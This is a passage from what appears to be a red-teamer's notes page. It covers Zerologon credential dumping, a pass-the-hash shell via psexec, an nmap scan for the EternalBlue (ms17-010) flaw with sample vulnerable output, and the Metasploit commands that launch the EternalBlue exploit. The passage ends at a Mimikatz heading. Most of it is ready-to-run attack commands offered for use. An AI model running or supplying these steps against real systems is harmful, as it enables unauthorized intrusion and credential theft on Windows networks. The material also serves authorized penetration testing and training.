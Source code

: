 <img src="https://github.com/ihebski/A-Red-Teamer-diaries/blob/master/zerologon/dump-Administrator-Password.png" alt="dump NTLM" >

Getting an RCE through pass-the-hash
<img src="https://github.com/ihebski/A-Red-Teamer-diaries/blob/master/zerologon/get_RCE_psexec.png" alt="RCE">

> The provided screenshots are related to a personnel lab used for the POC test only, be careful when running the exploit on DC in PROD(during an engagement)

## Scanning for EternalBlue ms17-010
```bash
bash$ nmap -p445 --script smb-vuln-ms17-010 <target>/24
```
If the target is vulnrable the output is as following 

Script Output<br>
Host script results:
```bash
| smb-vuln-ms17-010:
|   VULNERABLE:
|   Remote Code Execution vulnerability in Microsoft SMBv1 servers (ms17-010)
|     State: VULNERABLE
|     IDs:  CVE:CVE-2017-0143
|     Risk factor: HIGH
|       A critical remote code execution vulnerability exists in Microsoft SMBv1
|        servers (ms17-010).
|
|     Disclosure date: 2017-03-14
|     References:
|       https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-0143
|       https://technet.microsoft.com/en-us/library/security/ms17-010.aspx
|_      https://blogs.technet.microsoft.com/msrc/2017/05/12/customer-guidance-for-wannacrypt-attacks/
```
## Exploiting Eternal Blue - Metasploit Module (Windows 7 x64 only )

* Note : 
<br>The default Module supported by Metasploit is exploiting only windows 7 x64 bit 
Otherwise the target will be crashed .

```bash
msf > use exploit/windows/smb/ms17_010_eternalblue
      msf exploit(ms17_010_eternalblue) > show targets
            ...targets...
      msf exploit(ms17_010_eternalblue) > set TARGET <target-id>
      msf exploit(ms17_010_eternalblue) > show options
            ...show and set options...
      msf exploit(ms17_010_eternalblue) > exploit

```

## Mimikatz - Metasploit
